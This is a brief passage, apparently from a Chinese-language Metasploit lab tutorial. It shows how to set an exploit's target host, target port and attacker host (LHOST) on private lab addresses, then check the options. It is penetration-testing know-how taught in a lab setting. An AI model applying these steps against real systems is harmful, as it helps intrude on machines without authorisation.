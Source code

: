 ![show-options](img/show-options.png)

- 查看当前 payload 下的 exp 参数，并配置相关参数，确保所有`Required=yes`参数均正确配置，配置好后进行检查。

```
# 靶机 IP
set RHOSTS 192.168.17.130
# 靶机目标端口
set rport  19064          
# 攻击者主机 IP
set LHOST  192.168.17.129

# 再次检查 exp 配置参数列表
show options
```
